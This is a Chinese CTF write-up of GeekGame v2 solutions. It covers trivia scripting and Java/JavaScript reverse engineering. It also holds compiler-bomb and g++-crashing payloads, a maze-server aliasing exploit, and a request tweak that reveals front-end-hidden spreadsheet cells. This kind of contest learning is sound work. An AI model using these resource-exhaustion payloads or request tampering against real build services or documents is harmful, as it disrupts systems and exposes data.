# taoky's GeekGame v2 writeups

又是新的一年，在 Hackergame 2022 结束之后，PKU 的 GeekGame 也开始了。其实我还是挺期待今年能整出什么活的。

比赛的整体体验还不错，作为 hackergame staff 也能以选手的身份体会到了为了做题疯狂刷夜的感觉。最后总榜第 2 名。

我在赛后改的昵称是 `taoky | #"我是小孤独"`。在比赛时我的昵称前缀是 `ykoat`（即 `"taoky".chars().rev().collect::<String>()` 的值），后面根据每天的情况放不同的字符串。


这篇题解比赛完全结束后也会放在[我的博客](https://blog.taoky.moe)上。

让我们开始吧。

## †签到†

和[我去年的做法](https://blog.taoky.moe/2021-11-21/geekgame-v1-wp.html) 完 全 一 致，甚至命令都几乎不用改：

```console
> gs -sDEVICE=txtwrite -o - prob19.pdf
GPL Ghostscript 10.0.0 (2022-09-21)
Copyright (C) 2022 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
Processing pages 1 through 1.
Page 1
         WELCOME  ABOARD,
        ALL  PLAYERS!  GO  TO
        GEEKGAME.PKU.EDU.CN
        AND  SUBMIT  THE  FLAG:
   fa{el_lyr@ekaeV!
    lgHloPaesGeGm_2}
 别急 别急

> # flag{Hello_Players@GeekGame_V2!}
```

## 小北问答 · 极速版

难度大概是搜索 + socket 编程操作的入门题。里面的题目是乱序的，并且有部分题的数字会变。我按我的笔记里面记的顺序来。

1. 访问网址 “http://ctf.世界一流大学.com” 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？答案格式：^[^:\s]+$

   ```console
   $ curl -v http://ctf.世界一流大学.com
   *   Trying [2606:4700:3033::ac43:8e06]:80...
   * Connected to ctf.世界一流大学.com (2606:4700:3033::ac43:8e06) port 80 (#0)
   > GET / HTTP/1.1
   > Host: ctf.xn--4gqwbu44czhc7w9a66k.com
   > User-Agent: curl/7.86.0
   > Accept: */*
   ...
   ```
2. 我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？答案格式：^\d+$

   直接搜这个 MAC 找不到 vendor 的信息。但是我们能否直接用 MAC 地址来定位呢？因为即使是在没有 GPS 信号的情况下，手机根据周边无线 AP 的信息，也可以获取到大概的位置。

   最后用很长时间一顿好找，看到了[这篇文章](https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/)，其中指出 wigle.net 似乎是一个提供这种功能的网站。于是注册登录使用，把 MAC 输进 BSSID 里面，找到了具体的位置：

   

   邮编就是 80304。
3. 支持 WebP 图片格式的最早 Firefox 版本是多少？答案格式：^\d+$

   <https://caniuse.com/webp>，答案一目了然。
4. 视频 bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av_____ 访问。下划线内应填什么数字？答案格式：^\d+$

   我记得这个转换算法的逆向还是 mcfx 搞出来的。不过这不重要。直接找个在线工具弄一下就行。我用的是 <https://www.atoolbox.net/Tool.php?Id=910>。得到 av 号为 av418645518。
5. 北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？答案格式：^[\d.]+\/[\d.]+$

   Google Scholar 搜索 gStore，得到页面 <https://dl.acm.org/doi/abs/10.14778/2002974.2002976>，DOI 号就是 `10.14778/2002974.2002976`。
6. 我刚刚在脑海中想了一个介于 9320702644 到 9320702772 之间的质数。猜猜它是多少？答案格式：^\d+$

   坑，因为每次这个范围都不一样。搜到了一个[用 Miller-Rabin 判定法找下一个素数的程序代码](https://www.quora.com/Is-there-an-efficient-algorithm-to-find-the-smallest-prime-greater-than-N/answer/Nathan-Pflueger?ch=10&oid=40512793&share=b690130d&target_type=answer)。拿过来改了改，然后之后写程序，每次都选择范围起始数字后一个素数，反正多试几次总能整出来的。（当然我拿到 flag 的时候可能没有抽到这道题吧，我也记不清楚了）
7. 每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？答案格式：^[a-z.]+$

   从 https://pku-runner.github.io/ 下载，解压。包信息应该在 AndroidManifest.xml 里面，但是似乎是 Android 自己的二进制格式。搜到 <https://github.com/ytsutano/axmldec> 可以解析这种格式，于是编译运行之：

   ```console
   > ./axmldec ../AndroidManifest.xml 
   <?xml version="1.0" encoding="utf-8"?>
   <manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="647" android:versionName="1.22.0918" android:compileSdkVersion="33" android:compileSdkVersionCodename="13" platformBuildVersionName="13" platformBuildVersionCode="33" package="cn.edu.pku.pkurunner">
   ```

   包名为 cn.edu.pku.pkurunner。
8. 在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 14 级关卡需要多少金钱？答案格式：^\d+$

   看去年的 wp 仓库，[可以读到](https://github.com/PKU-GeekGame/geekgame-1st/blob/master/src/pygame/game/server/libtreasure.py#L19)：

   ```python
   GOAL_OF_LEVEL = lambda level: 300+int(level**1.5)*100
   ```

   注意，关卡数字也会变，所以要动态来。

接下来就是写程序的环节。今年换了新电脑之后 pwntools 直接 `pacman -S python-pwntools` 就能装上，所以之后都用 pwntools 来写了。

```python
from pwn import *

import random

# Determines whether a is a Miller-Rabin witness of n
def is_witness(a,n):
    q = n-1
    k = 0
    while q%2 == 0:
        q //= 2
        k += 1
    b = pow(a,q,n)
    if b == 1: return False
    for i in range(k):
        if b == n-1: return False
        b = b*b % n
    return True

# Miller-Rabin test, with 100 trials by default
def is_prime(n, trials=100):
    for i in range(trials):
        a = random.randrange(1,n)
        if is_witness(a,n): return False
    return True

def next_prime(n):
    while not(is_prime(n)): n += 1
    return n

context.log_level = 'debug'

p = remote("prob01.geekgame.pku.edu.cn", 10001)

p.readuntil("token: ")
p.sendline("<your token>")
p.readuntil("> ")
p.sendline("急急急")

corpus = {
    "bilibili": "418645518",
    "世界一流大学": "ctf.xn--4gqwbu44czhc7w9a66k.com",
    "一个朋友": "80304",
    "Firefox": "65",
    "DOI": "10.14778/2002974.2002976",
    "质数": "9320702711",
    "PKU Runner": "cn.edu.pku.pkurunner",
    "PKU GeekGame": "5500"
}

GOAL_OF_LEVEL = lambda level: 300+int(level**1.5)*100

while True:
    x = p.readuntil("> ")
    flag = False
    for key in corpus:
        if key.encode() in x:
            if key == "质数":
                j = x.split(b" ")
                fromx = int(j[3])
                tox = int(j[5])
                print(fromx, tox)
                res = str(next_prime(fromx))
                print(res)
                p.sendline(res)
            elif key == "PKU GeekGame":
                j = x.split(b" ")
                res = str(GOAL_OF_LEVEL(int(j[6])))
                p.sendline(res)
            else:
                p.sendline(corpus[key])
            flag = True
            break
    assert flag
    if "质数".encode() not in x:
        p.readuntil("答案正确")
```

其实最主要的两个 API 就是 `readuntil` 和 `sendline`，多 跑 几 次，就能出 flag 了。

## 编原译理习题课

去调研过 OJ 安全性的同学们都知道，编译器也是不靠谱的。这里有三个要求，分别对应三个 flag。

### Flag 1：产物超过 8MB

StackExchange Coldgolf 上对 compiler bomb 有[相关的讨论](https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/)。因为是 C++，有些 C 的 payload 是用不了的。最后我选择的是用[多层 `#define` 的方式](https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/69413#69413)搞出很大的编译产物。

直接复制是不行的：

```cpp
#define G A+A+A+A+A+A+A+A+A+A
#define A B+B+B+B+B+B+B+B+B+B
#define B C+C+C+C+C+C+C+C+C+C
#define C D+D+D+D+D+D+D+D+D+D
#define D E+E+E+E+E+E+E+E+E+E
#define E F+F+F+F+F+F+F+F+F+F
#define F x+x+x+x+x+x+x+x+x+x

int main(void) { int x, y = G; }
```

编译太慢了，要微调一下取得编译时间和程序大小的平衡。我参考了 <https://codegolf.stackexchange.com/questions/69189/build-a-compiler-bomb/111257#111257> 进行微调，结果如下：

```cpp
#define a 1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
#define b a,a,a,a,a,a,a,a,a,a,a,a,a,a,a,a
#define c b,b,b,b,b,b,b,b,b,b,b,b,b,b,b,b
#define d c,c,c,c,c,c,c,c,c,c,c,c,c,c,c,c
#define e d,d,d,d,d,d,d,d,d,d,d,d,d,d,d,d
#define f e,e,e,e,e,e,e,e,e,e,e,e,e,e,e,e
long long x[]={e};

int main(void) {}
```

### Flag 2：报错超过 2MB

众所周知，C++ 的模板能够产生大量错误信息——但是我这里没用模板，因为我自己也写不明白。我参考了 <https://codegolf.stackexchange.com/questions/1956/generate-the-longest-error-message-in-c>，最后 payload 如下：

```cpp
#include __FILE__
#include __FILE__
#include __FILE__
#include __FILE__
#include __FILE__
p;
```

### Flag 3：I C E!

让编译器段错误什么的，这么严重的问题，当然得去 g++ 收 bug 的地方看。在 <https://gcc.gnu.org/bugzilla/query.cgi> 搜索 `segfault`，然后按时间排序，过一遍就能看到 <https://gcc.gnu.org/bugzilla/show_bug.cgi?id=105300> "[10/11/12/13 Regression] segfault from static_assert with user-defined string suffix argument"。直接复制即可：

```cpp
void operator""_x(const char *, unsigned long);
static_assert(false, "foo"_x);
```

## Flag Checker

### Flag 1：Java 逆向

简单的 Java 逆向。下载 jd-gui，然后把 jar 丢进去，阅读逻辑：

```java
public void actionPerformed(ActionEvent paramActionEvent) {
   try {
   if (paramActionEvent.getSource() == this.button1) {
      byte[] arrayOfByte = this.textField1.getText().getBytes("UTF-8");
      String str = rot13(Base64.getEncoder().encodeToString(arrayOfByte));
      if ("MzkuM8gmZJ6jZJHgnaMuqy4lMKM4".equals(str)) {
         JOptionPane.showMessageDialog(null, "Correct");
      } else {
         JOptionPane.showMessageDialog(null, "Wrong");
      } 
   } else {
      Object object = this.invocable.invokeFunction((paramActionEvent.getSource() == this.button2) ? "checkflag2" : "checkflag3", new Object[] { this.textField1.getText() });
      JOptionPane.showMessageDialog(null, object);
   } 
   } catch (Exception exception) {
      StringWriter stringWriter = new StringWriter();
      PrintWriter printWriter = new PrintWriter(stringWriter);
      exception.printStackTrace(printWriter);
      JOptionPane.showMessageDialog(null, stringWriter.toString());
   } 
}

static String rot13(String paramString) {
   StringBuilder stringBuilder = new StringBuilder();
   for (byte b = 0; b < paramString.length(); b++) {
   char c = paramString.charAt(b);
   if (c >= 'a' && c <= 'm') {
      c = (char)(c + 13);
   } else if (c >= 'A' && c <= 'M') {
      c = (char)(c + 13);
   } else if (c >= 'n' && c <= 'z') {
      c = (char)(c - 13);
   } else if (c >= 'N' && c <= 'Z') {
      c = (char)(c - 13);
   } else if (c >= '5' && c <= '9') {
      c = (char)(c - 5);
   } else if (c >= '0' && c <= '4') {
      c = (char)(c + 5);
   } 
   stringBuilder.append(c);
   } 
   return stringBuilder.toString();
}
```

flag1 是改版的 rot13，这很简单：

```python
def re_rot13(s):
    ret = ""
    for i in range(len(s)):
        c = s[i]
        if c >= 'n' and c <= 'z':
            ret += chr(ord(c)-13)
        elif c >= 'N' and c <= 'Z':
            ret += chr(ord(c)-13)
        elif c >= 'a' and c <= 'm':
            ret += chr(ord(c)+13)
        elif c >= 'A' and c <= 'M':
            ret += chr(ord(c)+13)
        elif c >= '0' and c <= '4':
            ret += chr(ord(c)+5)
        elif c >= '5' and c <= '9':
            ret += chr(ord(c)-5)
        else:
            assert 0
    return ret

s = "MzkuM8gmZJ6jZJHgnaMuqy4lMKM4"
print(re_rot13(s))
```

### Flag 2：JavaScript 逆向

然后看 flag2 的逻辑：

```java
ScriptEngineManager scriptEngineManager = new ScriptEngineManager();
    ScriptEngine scriptEngine = scriptEngineManager.getEngineByName("nashorn");
try {
   String str = "\u0089\u009A\u0081\u008C\u009B\u0086\u0080\u0081\u00CF\u008C\u0087\u008A\u008C\u0084\u0089\u0083\u008E\u0088\u00DD\u00C7\u00B0\u00DF\u0097\u008E\u00D7\u00DC\u008A\u0097\u00DD\u00C6\u0094\u0099\u008E\u009D\u00CF\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00D2\u00B4\u00C8\u008C\u0087\u008E\u009D\u00AC\u0080\u008B\u008A\u00AE\u009B\u00C8\u00C3\u00C8\u0082\u008E\u009F\u00C8\u00C3\u00C8\u00C8\u00C3\u00C8\u009C\u009F\u0083\u0086\u009B\u00C8\u00C3\u00C8\u009C\u009B\u009D\u0086\u0081\u0088\u0086\u0089\u0096\u00C8\u00C3\u00C8\u00AC\u0080\u009D\u009D\u008A\u008C\u009B\u00C8\u00C3\u00C8\u00B8\u009D\u0080\u0081\u0088\u00C8\u00C3\u00C8\u0085\u00C2\u00C8\u00B2\u00D4\u009D\u008A\u009B\u009A\u009D\u0081\u00CF\u00C7\u00A5\u00BC\u00A0\u00A1\u00B4\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DB\u00B2\u00B2\u00C7\u00B0\u00DF\u0097\u008E\u00D7\u00DC\u008A\u0097\u00DD\u00B4\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DC\u00B2\u00B2\u00C7\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DD\u00B2\u00C6\u00B4\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DE\u00B2\u00B2\u00C7\u0089\u009A\u0081\u008C\u009B\u0086\u0080\u0081\u00C7\u00B0\u00DF\u0097\u008E\u00D7\u00DC\u008A\u0097\u00DC\u00C6\u0094\u009D\u008A\u009B\u009A\u009D\u0081\u00CF\u00B0\u00DF\u0097\u008E\u00D7\u00DC\u008A\u0097\u00DC\u00B4\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DF\u00B2\u00B2\u00C7\u00DF\u00C6\u0092\u00C6\u00C6\u00D2\u00D2\u00CF\u00A5\u00BC\u00A0\u00A1\u00B4\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DB\u00B2\u00B2\u00C7\u00B4\u00DF\u00C3\u00DE\u00DA\u00C3\u00DE\u00D9\u00C3\u00DE\u00D8\u00C3\u00DC\u00DF\u00C3\u00DE\u00DF\u00DA\u00C3\u00DE\u00D9\u00C3\u00DC\u00DE\u00C3\u00DE\u00D9\u00C3\u00D9\u00D8\u00C3\u00DC\u00C3\u00DC\u00DC\u00C3\u00DA\u00C3\u00D9\u00DF\u00C3\u00DB\u00C3\u00DE\u00DF\u00D9\u00C3\u00D9\u00C3\u00DB\u00DE\u00C3\u00DF\u00C3\u00DE\u00C3\u00D9\u00D8\u00C3\u00DC\u00C3\u00DE\u00D9\u00C3\u00DB\u00C3\u00D9\u00C3\u00DC\u00DC\u00C3\u00DD\u00DC\u00DD\u00B2\u00B4\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DE\u00B2\u00B2\u00C7\u0089\u009A\u0081\u008C\u009B\u0086\u0080\u0081\u00C7\u00B0\u00DF\u0097\u008E\u00D7\u00DC\u008A\u0097\u00DC\u00C6\u0094\u009D\u008A\u009B\u009A\u009D\u0081\u00CF\u00C7\u008C\u0087\u008A\u008C\u0084\u0089\u0083\u008E\u0088\u00DD\u00C4\u00CF\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DD\u00B2\u00C6\u00B4\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DF\u00B2\u00B2\u00C7\u00B0\u00DF\u0097\u008E\u00D7\u00DC\u008A\u0097\u00DC\u00C6\u0092\u00C6\u00C6\u00D0\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00DA\u00B2\u00D5\u00B0\u00DF\u0097\u00D8\u00DD\u00DB\u008D\u00B4\u00D9\u00B2\u00C6\u0092";
   StringBuilder stringBuilder = new StringBuilder();
   for (byte b = 0; b < str.length(); b++)
      stringBuilder.append((char)(str.charAt(b) ^ 0xEF)); 
   scriptEngine.eval(stringBuilder.toString());
} catch (Exception exception) {
   StringWriter stringWriter = new StringWriter();
   PrintWriter printWriter = new PrintWriter(stringWriter);
   exception.printStackTrace(printWriter);
   JOptionPane.showMessageDialog(null, stringWriter.toString());
}
```

"nashorn" 似乎是一个 JS 引擎。无论如何，先看看这一坨东西是啥：

```python
s = b"\x89\x9A\x81\x8C\x9B\x86（...后面的部分省略）"
print(s)

res = ""
for i in s:
    res += chr(i ^ 0xef)
print(res)
```

```javascript
function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
```

emmmmmm 拿了个 nodejs repl 一个一个变量看过去，最后这段代码的大概逻辑是：

```javascript
function checkflag2(_0xa83ex2) {
    var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];
    return (
        JSON.stringify(_0xa83ex2.split('').map(
            function(x){
                return x.charCodeAt(0)
            })
        ) == JSON.stringify([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232].map(
            function(y){
                return (checkflag2+ '').charCodeAt(y)
            }))?'Correct':'Wrong')}
```

函数加上字符串是个啥玩意啊：

```console
$ node
Welcome to Node.js v19.1.0.
Type ".help" for more information.
> // 把 checkflag2 扔进去，略
undefined
> checkflag2 + ''
"function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}"
```

哦就是程序源代码的字符串啊，那简单：

```console
> JSON.stringify([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232].map((x) => {return (checkflag2+'').charCodeAt(x)}))
'[102,108,97,103,123,106,97,118,97,115,99,114,105,112,116,45,111,98,102,117,115,99,97,116,111,114,125]'
```

扔 Python 跑：

```console
> python
Python 3.10.8 (main, Nov  1 2022, 14:18:21) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> chr(102)
'f'
>>> x = [102,108,97,103,123,106,97,118,97,115,99,114,105,112,116,45,111,98,102,117,115,99,97,116,111,114,125]
>>> for i in x:
...     print(chr(i), end='')
... 
flag{javascript-obfuscator}>>>
```

## 智慧检测器

### Flag 1：不存在的楼层

首先跑跑看可以看出这是个走迷宫的程序，而且上下左右得用东南西北来指代（经常搞不清楚往某个方向走应该输入什么）。然后再跑跑（或者去看源代码）可以发现，第二/三关要走到最上层才能出去，以及，诶我是不是可以卡墙里啊？

```
Here is a maze challenge with 3 levels.
Clear each level within 99 moves to get the flag.
Good luck!
Start: [0, 1, 5]
Teleports: {}
CurPos: [0, 1, 5]
#######
#    @#
# X X #
#   X #
#   X #
#     #
#####E#
Input direction and press enter. Available directions: SW R(estart)
WWWWWWWWWWWWW
['W', 'W', 'W', 'W', 'W', 'W', 'W', 'W', 'W', 'W', 'W', 'W', 'W']
Invalid Direction
CurPos: [0, 1, 0]
#######
@     #
#XX   #
#     #
#     #
#     #
#####E#
Input direction and press enter. Available directions: E R(estart)
```

然后发现，只要第一步没问题，后面遇到有问题的前进方向的时候，程序会晚一步才停一下，所以可以事实上穿过厚度为 1 的墙。但是其实你能做到的事情不止穿墙那么简单：第二关你可以用 U 上楼，D 下楼。让我们在第一关试试吧！

```
Input direction and press enter. Available directions: WE R(estart)
WUUU
Invalid Direction
got <class 'IndexError'>
flag{gAme.exe-stops-reSponDing...send-error-Report?}
```

获得 flag1。

程序的关键问题在第 422 行：

```python
CurPos = NewPos
```

这里 `CurPos` 和 `NewPos` 都是 `list`，`CurPos` 是我当前的位置，`NewPos` 是我提供的输入序列遍历的时候的位置。第一下没问题的话，这一行就被执行，然后 `CurPos` 和 `NewPos` 两个变量就事实上**指向同一个列表**（要知道复制一个大的对象的操作是很慢的，所以这么实现也合情合理）！

```python
>>> x = [1,2,3,4]
>>> y = x
>>> x[0]=114
>>> y
[114, 2, 3, 4]
```

正确的做法：

```python
>>> x = [1,2,3,4]
>>> y = x[:]
>>> x[0]=114
>>> y
[1, 2, 3, 4]
```

尽管程序有检查，但是代码逻辑是先 commit 到 NewPos 再检查执行是否正确，于是我们可以做一次错误的操作（第二次会因为第一次操作越界直接停止而不会被执行）。

### Flag 2：直穿终点

至于 flag2，首先有了武功秘籍（指穿墙和穿楼层）之后前两关简直小事一桩。第三关也类似，先冲到最上面一层，然后靠穿墙直冲终点，步数是够用的。第二阶段给的提示是「第三关可以开局先去看看终点的位置在哪里，然后按 R 重新开始」，但是在我看来这个提示的操作是没有必要的。

但是因为层数实在太多，还是写程序吧。

```python
from pwn import *

context.log_level = 'debug'

p = remote("prob03.geekgame.pku.edu.cn", 10003)
p.readuntil("token: ")
p.sendline("<your token>")

while True:
    map_ = p.readuntil("Input")
    x = p.readuntil("start)\n")
    print(map_)
    print(x)
    if b"E" not in map_:
        available_op = x.split(b":")[-1].decode().strip()
        print(available_op)
        available_op = available_op[0] + "U"
        p.sendline(available_op)
    else:
        user = input().strip()
        p.sendline(user)
```

因为我不想写在最顶层判断怎么走的逻辑，所以如果发现这一层迷宫里有 E，那么就让用户输入序列，否则自动爬楼梯。

## 我用 108 天录了个音（部分，第二阶段）

> CTF 并带着趣味（10 秒）不觉得这很酷吗（10 秒）作为一名——呃——CS 学生（10 秒）我觉得这太酷了（10 秒）很符合我对 GeekGame 的想象

```
科技并带着趣味
不觉得这很酷吗
作为一名理工男
我觉得这太酷了
很符合我对未来生活的想象
```

第二阶段之前，我拿 Azure 的语音合成接口生成了这五句话（学生邮箱可以弄到免费的额度，Mac 用户应该可以更省事，直接用 `say` 生成），然后基本确定了要用 ogg + opus 编码，然后拿 Audacity 拼接五段音频，但是只能生成出 20 多 KB 的文件，两方面都不符合要求。

第二阶段看了提示，发现失误就在于拿 Audacity 拼音频——我应该直接用 cat 的喵。

作为参考，我的编码参数为：

```
ffmpeg -i 1new.wav -vn -c:a libopus -b:a 10k -ac 1 -ar 8000 -page_duration 0 -application voip -vbr constrained -filter:a "atempo=1.2" 1.ogg
```

但是静音部分还是搞不清楚怎么缩小到 0.5KB。最后目录的文件大小情况如下：

```console
> ls -lha
total 1.2M
drwxr-xr-x 1 taoky taoky  194 Nov 25 14:31 ./
drwxr-xr-x 1 taoky taoky  446 Nov 25 14:32 ../
-rw-r--r-- 1 taoky taoky  37K Nov 25 13:52 1new.wav
-rw-r--r-- 1 taoky taoky 1.5K Nov 25 14:01 1.ogg
-rw-r--r-- 1 taoky taoky  38K Nov 25 13:53 2new.wav
-rw-r--r-- 1 taoky taoky 1.5K Nov 25 14:02 2.ogg
-rw-r--r-- 1 taoky taoky  42K Nov 25 13:54 3new.wav
-rw-r--r-- 1 taoky taoky 1.6K Nov 25 14:02 3.ogg
-rw-r--r-- 1 taoky taoky  38K Nov 25 13:55 4new.wav
-rw-r--r-- 1 taoky taoky 1.4K Nov 25 14:03 4.ogg
-rw-r--r-- 1 taoky taoky  65K Nov 25 13:56 5new.wav
-rw-r--r-- 1 taoky taoky 2.2K Nov 25 14:30 5.ogg
-rw-r--r-- 1 taoky taoky  23K Nov 25 14:31 result.ogg
-rw-r--r-- 1 taoky taoky 3.7K Nov 25 14:04 silence.ogg
-rw-r--r-- 1 taoky taoky 862K Nov 25 13:57 silence.wav
```

```console
> cat 1.ogg silence.ogg 2.ogg silence.ogg 3.ogg silence.ogg 4.ogg silence.ogg 5.ogg > result.ogg
> ffprobe -f ogg -ac 1 -ar 8000 ./result.ogg -show_entries format=duration -print_format json
// 省略部分输出
Input #0, ogg, from './result.ogg':
  Duration: 00:00:01.60, start: 0.000000, bitrate: 114 kb/s
  Stream #0:0: Audio: opus, 48000 Hz, mono, fltp
    Metadata:
      encoder         : Lavc59.37.100 libopus
    "format": {
        "duration": "1.601000"
    }
}
```

ffprobe 似乎只会输出最后一段音频的长度。上传即可。作为参考，这是[我上传的 ogg 文件](assets/result.ogg)。

## 企鹅文档

只在前端隐藏单元格的屑文档。虽然我感觉拿这个出题不太好，并且不确定性因素也有点太大了。

F12 看请求，发现 `dop-api/get/sheet` 里面好像有好东西：





然后可以拼出 `BzRJEs_next`，这玩意可不在表格里啊。我们能不能拿到整个表格的数据呢？答案是可以的，只要把 startrow 参数从 61 调到 0 就行，用 Firefox 的 Edit and Resend，可以收到下面的东西：

```json
"1":{"0":5,"2":[1,"h"],"3":1},"2":{"0":5,"2":[1,"t"],"3":1},"3":{"0":5,"2":[1,"t"],"3":1},"4":{"0":5,"2":[1,"p"],"3":1},"5":{"0":5,"2":[1,"s"],"3":1},"6":{"0":5,"2":[1,":"],"3":1},"7":{"0":5,"2":[1,"/"],"3":1},"8":{"0":5,"2":[1,"/"],"3":1},"9":{"0":5,"2":[1,"g"],"3":1},"10":{"0":5,"2":[1,"e"],"3":1},"11":{"0":5,"2":[1,"e"],"3":1},"12":{"0":5,"2":[1,"k"],"3":1},"13":{"0":5,"2":[1,"g"],"3":1},"14":{"0":5,"2":[1,"a"],"3":1},"15":{"0":5,"2":[1,"m"],"3":1},"16":{"0":5,"2":[1,"e"],"3":1},"17":{"0":5,"2":[1,"."],"3":1},"18":{"0":5,"2":[1,"p"],"3":1},"19":{"0":5,"2":[1,"k"],"3":1},"20":{"0":5,"2":[1,"u"],"3":1},"21":{"0":5,"2":[1,"."],"3":1},"22":{"0":5,"2":[1,"e"],"3":1},"23":{"0":5,"2":[1,"d"],"3":1},"24":{"0":5,"2":[1,"u"],"3":1},"25":{"0":5,"2":[1,"."],"3":1},"26":{"0":5,"2":[1,"c"],"3":1},"27":{"0":5,"2":[1,"n"],"3":1},"28":{"0":5,"2":[1,"/"],"3":1},"29":{"0":5,"2":[1,"s"],"3":1},"30":{"0":5,"2":[1,"e"],"3":1},"31":{"0":5,"2":[1,"r"],"3":1},"32":{"0":5,"2":[1,"v"],"3":1},"33":{"0":5,"2":[1,"i"],"3":1},"34":{"0":5,"2":[1,"c"],"3":1},"35":{"0":5,"2":[1,"e"],"3":1},"36":{"0":5,"2":[1,"/"],"3":1},"37":{"0":5,"2":[1,"t"],"3":1},"38":{"0":5,"2":[1,"e"],"3":1},"39":{"0":5,"2":[1,"m"],"3":1},"40":{"0":5,"2":[1,"p"],"3":1},"41":{"0":5,"2":[1,"l"],"3":1},"42":{"0":5,"2":[1,"a"],"3":1},"43":{"0":5,"2":[1,"t"],"3":1},"44":{"0":5,"2":[1,"e"],"3":1},"45":{"0":5,"2":[1,"/"],"3":1},"46":{"0":5,"2":[1,"p"],"3":1},"47":{"0":5,"2":[1,"r"],"3":1},"48":{"0":5,"2":[1,"o"],"3":1},"49":{"0":5,"2":[1,"b"],"3":1},"50":{"0":5,"2":[1,"_"],"3":1},"51":{"0":5,"2":[1,"k"],"3":1},"52":{"0":5,"2":[1,"A"],"3":1},"53":{"0":5,"2":[1,"i"],"3":1},"54":{"0":5,"2":[1,"Q"],"3":1},"55":{"0":5,"2":[1,"c"],"3":1},"56":{"0":5,"2":[1,"W"],"3":1},"57":{"0":5,"2":[1,"H"],"3":1},"58":{"0":5,"2":[1,"o"],"3":1},"59":{"0":5,"2":[1,"b"],"3":1},"60":{"0":5,"2":[1,"s"],"3":1},"61":{"0":5,"2":[1,"B"],"3":1},"62":{"0":5,"2":[1,"z"],"3":1},"63":{"0":5,"2":[1,"R"],"3":1},"64":{"0":5,"2":[1,"J"],"3":1},"65":{"0":5,"2":[1,"E"],"3":1},"66":{"0":5,"2":[1,"s"],"3":1},"67":{"0":5,"2":[1,"_"],"3":1},"68":{"0":5,"2":[1,"n"],"3":1},"69":{"0":5,"2":[1,"e"],"3":1},"70":{"0":5,"2":[1,"x"],"3":1},"71":{"0":5,"2":[1,"t"],"3":1},"72":{"0":133,"2":[1,"机密flag链接已经受到保护，只允许出题人访问"],"3":2,"8":[[0,{"0":"#000000","1":"","2":10,"3":0,"4":0,"5":0}]]}}
```

